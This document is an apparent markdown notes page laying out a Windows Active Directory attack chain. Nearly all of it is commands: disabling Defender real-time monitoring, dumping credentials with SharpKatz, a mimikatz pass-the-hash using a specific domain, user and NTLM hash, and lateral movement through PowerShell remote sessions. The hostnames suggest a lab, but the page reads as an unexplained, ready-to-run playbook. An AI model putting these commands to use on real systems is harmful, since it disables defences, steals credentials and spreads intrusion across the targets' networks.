


# Exploitation

```
Local Administrator privileges
```


# Disable Defender (resources/Local Machine)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Dump credentials

```
C:\Windows\system32>z:\SharpKatz.exe
```

# Impersonation: PassTheHash

```
C:\Windows\system32>C:\Temp\mimikatz.exe
```
```
mimikatz # privilege::debug
```
```
mimikatz # sekurlsa::pth /domain:ad.forest.local /user:worker01 /ntlm:b2bdbe60565b677dfb133866722317fd
```


# Lateral movement

```
C:\Windows\system32>powershell
```
```
PS C:\Windows\system32> New-PSSession -ComputerName winserv2019forest.ad.forest.corp
```
```
PS C:\Windows\system32> Enter-PSSession -ComputerName winserv2019forest.ad.forest.corp
```
